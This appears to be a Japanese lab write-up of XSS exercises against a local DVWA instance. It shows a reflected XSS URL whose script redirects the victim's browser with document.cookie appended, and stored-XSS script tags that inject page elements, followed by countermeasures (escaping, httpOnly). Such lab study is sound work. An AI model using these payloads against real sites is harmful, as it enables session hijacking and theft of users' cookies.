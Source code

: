 - XSS
  XSS(reflected)
  `http://localhost/vulnerabilities/xss_r/?name=and Welcome!<script>window.addEventListener("load",e=>window.location = ["http://localhost?k=",document.cookie].join(""))</script>`のような URL にアクセスしたとき、`http://localhost/?hisCookie=_ga=GA1.1.amp-rXRaKF8PR18-z4IbOzQ-6;`のような URL にリダイレクトされたことから、cookie の値を取得出来ていることが分かります。

  [XSS(reflected)参考](https://qiita.com/KPenguin/items/783caef6a43e594ed7cd)

  XSS(stored)
  以下のようなスクリプトをフォームに入力したところ、画像のように a タグを埋め込むことが出来たことから、JavaScript を実行出来ることが分かります。(※テストで何度も実行したため、タグが複数出来てしまっています...。)

  ```
  <script>a=document.createElement("a")</script>
  <script>a.innerText="ヘルプ"</script>
  <script>table=document.getElementsByTagName("table")</script>
  <script>table[0].appendChild(a)</script>
  ```

  ![XSS(stored)](./images/xss-stored.png)
  [XSS(stored)参考](https://qiita.com/KPenguin/items/dea8c81522f81b7bb1f3)

  有効な対策
  HTML で特殊な意味を持つ記号文字(メタ文字)をエスケープする。また、reflected では cookie の値が取得出来てしまっているので、cookie に httpOnly 属性を付与する。
